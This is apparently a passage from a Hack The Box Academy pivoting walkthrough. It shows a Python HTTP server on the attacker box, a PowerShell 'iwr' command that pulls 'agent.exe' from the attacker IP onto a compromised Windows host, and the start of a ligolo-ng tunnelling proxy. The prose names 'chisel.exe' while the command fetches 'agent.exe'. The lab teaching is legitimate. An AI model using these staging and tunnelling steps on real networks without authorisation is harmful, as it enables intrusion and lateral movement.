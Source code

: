 Students will start a Python HTTP server to transfer the `chisel.exe` onto the target machine:

Code: shell

```shell
python3 -m http.server
```

```shell-session
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Subsequently, students will return to the RDP session and the previously spawned `PowerShell` window, where they will proceed to download the executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/agent.exe -o agent.exe
```

```powershell-session
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/agent.exe -o agent.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `ligolo`'s proxy:

Code: shell

```shell
./proxy -selfcert
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ ./proxy -selfcert

WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: A910475F1FBB2F071C47BC3CCF0685188A816C82CB654A25505479E67071293B 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.6.2

ligolo-ng » 
```
